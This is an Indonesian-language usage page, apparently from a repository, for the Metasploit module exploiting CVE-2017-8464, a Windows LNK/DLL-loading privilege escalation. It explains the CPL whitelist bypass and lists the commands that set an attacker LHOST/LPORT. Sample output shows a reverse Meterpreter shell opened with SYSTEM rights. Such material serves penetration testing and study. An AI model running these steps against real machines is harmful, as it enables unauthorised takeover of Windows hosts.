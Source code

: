 # cve_2017_8464_lnk_lpe

Modul ini mengeksploitasi kerentanan dalam penanganan file Shortcut Windows (`.LNK`) yang memuat ikon dinamis, di mana ikon tersebut dimuat dari sebuah `DLL` berbahaya.

Kerentanan ini merupakan varian dari `MS15-020` (`CVE-2015-0096`). File `LNK` yang dibuat mirip, namun terdapat tambahan `SpecialFolderDataBlock`. `ID` folder yang disetel dalam `SpecialFolderDataBlock` ini diarahkan ke `Control Panel`. Ini sudah cukup untuk melewati daftar putih (`whitelist`) `CPL`.

Bypass ini dapat digunakan untuk menipu Windows agar memuat file `DLL` sewenang-wenang (`arbitrary DLL`).

Opsi `PATH` harus merupakan path absolut ke direktori yang dapat ditulisi dan diindeks untuk pencarian. Jika `PATH` tidak ditentukan, modul secara default akan menggunakan `%USERPROFILE%`.

## Penulis
- Uncredited
- Yorick Koster
- Spencer McIntyre

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2017_8464_lnk_lpe
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Generating LNK file to load: C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[+] Deleted C:\Users\admin\CAkoGlgdwbVztjah.lnk
[*] Meterpreter session 8 opened (192.168.1.11:4444 -> 192.168.1.53:49175) at 2025-05-17 05:18:06 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2017_8464_lnk_lpe/)
